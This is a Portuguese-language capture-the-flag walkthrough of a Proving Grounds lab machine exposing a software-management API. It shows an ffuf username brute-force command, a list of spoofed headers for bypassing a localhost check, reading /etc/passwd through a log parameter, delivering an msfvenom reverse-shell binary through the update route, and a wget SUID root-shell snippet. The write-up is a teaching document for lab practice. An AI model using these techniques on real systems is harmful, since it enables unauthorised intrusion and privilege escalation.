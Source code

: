```yaml
---
title: Proving Grounds - Tokyo Ghoul
author: mithr4nd1r
date: 2022-11-29 00:00:00 -0300
categories: [Walkthrough, Proving Grounds]
tags: [writeup, walkthrough, proving, grounds, PG, tutorial, hacking, pentest, ctf, capture, flag, proof, linux, medium, médio]
mermaid: true
image: "https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/api.jpg"
pin: true
---
```


Dificuldade | Opinião | 📅 Início | 📅 Conclusão
:--:|:--:|:--:|:--:
![](/assets/img/nivel/button_medio.png) | ![](/assets/img/nivel/button_medio.png) | 14 de Dezembro de 2022 | 19 de Dezembro de 2022

## 1. Escaneamento

```bash
Nmap scan report for 192.168.160.134
Host is up (0.21s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
13337/tcp open  http    Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn/20.0.4
|_http-title: Remote Software Management API
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/14%OT=22%CT=1%CU=33249%PV=Y%DS=2%DC=T%G=Y%TM=6399E8
OS:E2%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=109%TI=Z%II=I)SEQ(SP=108%G
OS:CD=1%ISR=109%TI=Z%TS=9)SEQ(SP=108%GCD=1%ISR=109%TI=Z%II=I%TS=A)OPS(O1=M5
OS:4EST11NW7%O2=M54EST11NW7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST11NW7%O
OS:6=M54EST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=N)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M54ENNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=O%F=A
OS:R%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## 2. Enumeração

### Remote Software Management (13337)

Ao entrar na página web, vemos que a aplicação é um tipo de API e ja nos é exposto algumas rotas

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed.png)

> /version
{: .prompt-info }

A rota `version` apenas nos retorna a versão `1.0.0b` e provavelmente um hash md5 em sequência `8f887f33975ead915f336f57f0657180`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed1.png)

> /logs
{: .prompt-info }

A rota logs mostra que nosso hpst não tem acesso ao logs, provavelmente por ser acessível somente localmente.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed2.png)

Seguindo a descrição da rota update, deve-se enviar um post com user e url de um arquivo elf, para ser baixado e executado. Obviamente, aqui é o ponto de entrada, porém falta o nome de usuário.

```html
/update

Methods: POST

Updates the app from ELF file. Content-Type: application/json {"user":"<user requesting the update>", "url":"<url of the update to download>"}
```

> /update
{: .prompt-info }

Como forma de descobrir o usuário, meu primeiro pensamento foi em tentar um bruteforce, então utilizando a ferramenta ffuf, tentei encontrar um usuário cuja resposta da página não retornasse `username invalid` porém não obtive sucesso…

- Comando: `ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u [http://192.168.117.134:13337/update](http://192.168.117.134:13337/update) -X POST -H "Content-Type: application/json" -d '{"user": "FUZZ", "url": "[http://192.168.49.117](http://192.168.49.117/)"}' -fs 17 -x [http://127.0.0.1:8080](http://127.0.0.1:8080/)`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed3.png)

> /restart
{: .prompt-info }

Ao enviar o restart, aparece um popup de confirmação do reinicio, porém ao clicar nele nada acontece aparentemente.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed4.png)

Ao interceptar com o Burp, verifica-se que o script envia um json de confirmação via POST pra causar o reinicio. Ao replicar isso, o serviço realmente reinicia:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed5.png)

Retornando a rota logs, procurei uma forma de burlar a detecção de host do sistema. Encontrei algumas dicas no HackTricks, onde sugere-se o uso de alguns headers que podem causar esse bypass.

[Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)

```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1
```

Ao testar o segundo header, uma mensagem de erro diferente apareceu, sugerindo usar um parâmetro na url para ter acesso ao arquivo de log.

- Header: `X-Forwarded-For: 127.0.0.1`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed6.png)

Como o nome do arquivo é passado, tentei passar direto o arquivo de usuários `/etc/passwd` e deu certo, nos retornando a lista de usuários, agora podemos tentar upar o arquivo `.elf` malicioso usando o usuário `clumsyadmin`.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed7.png)

Pra isso, subi um servidor http em python e enviei a requisição via BURP, retornando com sucesso a requisição para nós.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed8.png)

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed9.png)

## 3. Acesso Inicial - Exploração

Sendo assim, criei o binário com o msvenom, subi o servidor HTTP e abri uma porta de escuta para receber o shell

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed10.png)

Agora é necessário reiniciar o servidor e é só reenviar o post com a confirmação que descobrimos antes:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed11.png)

E o shell veio:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed12.png)

## 4. Pós Exploração

Como de praxe, upei o [`linpeas.sh`](https://github.com/carlospolop/PEASS-ng) e fiz a varredura interna de vulnerabilidades.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed13.png)

A enumeração nos retornou o binário `wget` com execução de `SUID`.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed14.png)

## 5. Escalação de Privilégio

Então é só seguir os comandos descritos no [GTFOBins - Wget SUID](https://gtfobins.github.io/gtfobins/wget/#suid)

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
./wget --use-askpass=$TF 0
```

Por fim, root.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed15.png)